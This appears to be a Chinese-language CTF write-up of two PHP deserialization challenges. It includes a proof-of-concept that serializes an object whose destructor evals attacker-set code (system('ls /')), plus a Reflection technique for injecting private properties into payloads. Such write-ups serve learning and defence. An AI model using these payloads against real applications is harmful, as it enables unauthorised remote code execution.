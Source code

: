 
## [PHP 反序列化] 17 第十七章 星骸迷阵·神念重构

简单的反序列化，注意 urlencode。关于 PHP 反序列化，请学习：[https://hello-ctf.com/hc-web/php_unser_base/](https://hello-ctf.com/hc-web/php_unser_base/)

PoC:

```php
<?php

class A
{
    public $a;
    function __destruct()
    {
        eval($this->a);
    }
}

$pwn = new A();
$pwn->a = "system('ls /');";
echo urlencode(serialize($pwn));
```

---

## [PHP 反序列化] 18 第十八章 万卷诡阁·功法连环

先了解一下怎么构造含有 private 属性的类的反序列化 payload。

方法 A — Reflection（推荐）

要点：创建对象（可跳过构造），用 `ReflectionProperty::setAccessible(true)` 写入私有属性，然后 `serialize()`。

```php
<?php
class PersonA { private $name; function __wakeup(){} }
class PersonB { public $name; function work(){} }

// 创建 obj，注入私有属性，序列化
$rc = new ReflectionClass('PersonA');
$obj = $rc->newInstanceWithoutConstructor();

$prop = $rc->getProperty('name');
$prop->setAccessible(true);

$b = new PersonB(); $b->name = 'payload';
$prop->setValue($obj, $b);

echo serialize($obj), PHP_EOL;

```
